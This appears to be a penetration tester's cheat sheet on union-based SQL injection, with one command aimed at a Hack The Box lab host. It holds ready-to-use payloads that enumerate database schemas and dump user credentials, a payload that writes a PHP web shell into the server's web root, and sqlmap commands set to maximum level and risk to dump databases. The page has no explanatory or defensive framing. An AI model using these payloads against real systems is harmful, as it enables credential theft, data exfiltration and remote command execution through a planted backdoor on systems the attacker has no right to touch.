 ## [+] Union Based SQL Injection

' or 1=1#

1' ORDER BY 10#

1' UNION SELECT version(),2#

1' UNION SELECT version(),database()#

1' UNION SELECT version(),user()#

1' UNION ALL SELECT table_name,2 from information_schema.tables#

1' UNION ALL SELECT column_name,2 from information_schema.columns where table_name = "users"#

1' UNION ALL SELECT concat(user,char(58),password),2 from users#

```sh
q=test&lang=en' UNION SELECT version(),2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 INTO OUTFILE "c:/xampp/htdocs/backdoor2.php"#
```


sqlmap --url="<url>" -p username --user-agent=SQLMAP --threads=10 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs

```sh
python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 -p username,password
```

```sh
sqlmap -r header.req -p <parameter> --level 4 --risk 3 --batch
```

Fetch on string.

```sh
python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,passsword 
python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,passsword --dump

python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 -p email --force-ssl --dump

python2 sqlmap.py -u "https://admin-portal.europacorp.htb/login.php" --data "email=admin@europacorp.htb&password=" --risk 3 --level 5 --dbms "MYSQL" --dump
```

